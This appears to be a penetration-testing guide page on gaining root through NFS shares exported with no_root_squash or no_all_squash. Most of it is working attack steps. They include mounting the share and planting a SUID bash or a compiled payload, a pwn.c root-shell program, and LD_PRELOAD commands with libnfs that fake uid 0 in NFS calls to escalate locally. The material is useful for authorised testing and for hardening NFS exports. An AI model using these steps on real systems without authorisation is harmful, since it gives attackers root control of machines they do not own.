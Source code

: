 # NFS no\_root\_squash/no\_all\_squash misconfiguration PE

Read the _**/etc/exports**_ file, if you find some directory that is configured as **no\_root\_squash**, then you can **access** it from **as a client** and **write inside** that directory **as** if you were the local **root** of the machine.

**no\_root\_squash**: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.

**no\_all\_squash:** This is similar to **no\_root\_squash** option but applies to **non-root users**. Imagine, you have a shell as nobody user; checked /etc/exports file; no\_all\_squash option is present; check /etc/passwd file; emulate a non-root user; create a suid file as that user \(by mounting using nfs\). Execute the suid as nobody user and become different user.

## Privilege Escalation

### Remote Exploit

If you have found this vulnerability, you can exploit it:

* **Mounting that directory** in a client machine, and **as root copying** inside the mounted folder the **/bin/bash** binary and giving it **SUID** rights, and **executing from the victim** machine that bash binary.

```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```

* **Mounting that directory** in a client machine, and **as root copying** inside the mounted folder our come compiled payload that will abuse the SUID permission, give to it **SUID** rights, and **execute from the victim** machine that binary \(you can find here some[ C SUID payloads](payloads-to-execute.md#c)\).

```bash
#Attacker, as root user
gcc payload.c -o payload
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /tmp/payload .
chmod +s payload

#Victim
cd <SHAREDD_FOLDER>
./payload #ROOT shell
```

### Local Exploit

{% hint style="info" %}
Note that if you can create a tunnel from your machine to the victim machine you can still use the Remote version to exploit this privilege escalation tunnelling the required ports.
{% endhint %}

**Trick copied from** [**https://www.errno.fr/nfs\_privesc.html**](https://www.errno.fr/nfs_privesc.html)\*\*\*\*

Now, let’s assume that the share server still runs `no_root_squash` but there is something preventing us from mounting the share on our pentest machine. This would happen if the `/etc/exports` has an explicit list of IP addresses allowed to mount the share.

Listing the shares now shows that only the machine we’re trying to privesc on is allowed to mount it:

```text
[root@pentest]# showmount -e nfs-server
Export list for nfs-server:
/nfs_root   machine
```

This means that we’re stuck exploiting the mounted share on the machine locally from an unprivileged user. But it just so happens that there is another, lesser known local exploit.

This exploit relies on a problem in the NFSv3 specification that mandates that it’s up to the client to advertise its uid/gid when accessing the share. Thus it’s possible to fake the uid/gid by forging the NFS RPC calls if the share is already mounted!

Here’s a [library that lets you do just that](https://github.com/sahlberg/libnfs).

#### Compiling the example <a id="compiling-the-example"></a>

Depending on your kernel, you might need to adapt the example. In my case I had to comment out the fallocate syscall. Due to the absence of cmake on the system, I also needed to link against the precompiled library which can be [found here](https://sites.google.com/site/libnfstarballs/li).

```bash
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L../libnfs-1.11.0/lib/.libs/
```

#### Exploiting using the library <a id="exploiting-using-the-library"></a>

Let’s use the simplest of exploits:

```bash
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
```

Place our exploit on the share and make it suid root by faking our uid in the RPC calls:

```text
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chown root: nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```

All that’s left is to launch it:

```text
[w3user@machine libnfs]$ /mnt/share/a.out
[root@machine libnfs]#
```

There we are, local root privilege escalation!

